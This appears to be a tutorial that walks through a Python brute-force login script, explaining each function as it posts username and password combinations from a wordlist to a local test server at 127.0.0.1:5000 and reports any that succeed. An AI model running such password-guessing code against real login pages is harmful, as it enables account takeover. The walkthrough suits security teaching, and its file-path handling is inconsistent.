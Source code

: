 Step 1: Import Required Module

import requests

    The requests module is used to send HTTP requests to the target URL.

Step 2: Define load_passwords Function
```py
def load_passwords(file_path):
    try:
        with open('./pass.txt', "r") as file:
            return [line.strip() for line in file.readlines()]
    except FileNotFoundError:
        print(f"[!] File not found: {file_path}")
        return []
```

   Purpose: This function reads passwords from a file.
    Steps:
        Open file: The file at file_path is opened in read mode ("r").
        Process lines: Each line from the file is stripped of trailing whitespace and returned as a list.
        Handle error: If the file is not found, it prints an error message and returns an empty list.

Step 3: Define brute_force_login Function

```py
def brute_force_login(url, username_list, password_file):
```
This function performs the brute force attack by testing combinations of usernames and passwords.

Step 3.1: Load Passwords from File
```py
password_list = load_passwords(password_file)
if not password_list:
    print("[!] No passwords to test. Exiting.")
    return
```
 Load passwords: Calls load_passwords() to get the list of passwords from the file.
    Check if empty: If no passwords are found, print an error message and exit.

Step 3.2: Iterate Through Usernames and Passwords
```py

for username in username_list:
    for password in password_list:
        data = {
            "username": username,
            "password": password
        }
```
 Outer loop: Goes through each username in the username_list.
Inner loop: Tests each password from the password_list.
Prepare data: Creates a dictionary containing the username and password.

Step 3.3: Send HTTP POST Request
```py
        headers = {
            "Host": "127.0.0.1:5000",
        }
        response = requests.post(url, headers=headers, data=data)
```
Headers: Creates a basic HTTP header. You can expand it as needed.
    Send POST request: Sends the data (username and password) to the target URL.

Step 3.4: Check for Success
```py
        if "You are logged in" in response.text:
            print(f"[+] Login successful: Username: {username}, Password: {password}")
            return
        else:
            print(f"[-] Failed: Username: {username}, Password: {password}")
```
Check response: Looks for the success message "You are logged in" in the server's response.
    Success: If found, it prints the valid username and password and exits.
    Failure: Otherwise, it logs that the attempt failed.

Step 4: End of Brute Force
```py
print("[-] Brute force complete. No valid credentials found.")
```
If no valid credentials are found after trying all combinations, a message is printed.

Step 5: Main Script Execution
```py
if __name__ == "__main__":
    target_url = "http://127.0.0.1:5000/login"
    username_list = ["12345", "admin"]
    password_file = "passwords.txt"
    brute_force_login(target_url, username_list, password_file)
```
Define variables:
        target_url: The URL where the login requests are sent.
        username_list: A list of usernames to test.
        password_file: The file containing passwords to test.
    Call function: The brute_force_login() function is executed with the above inputs.
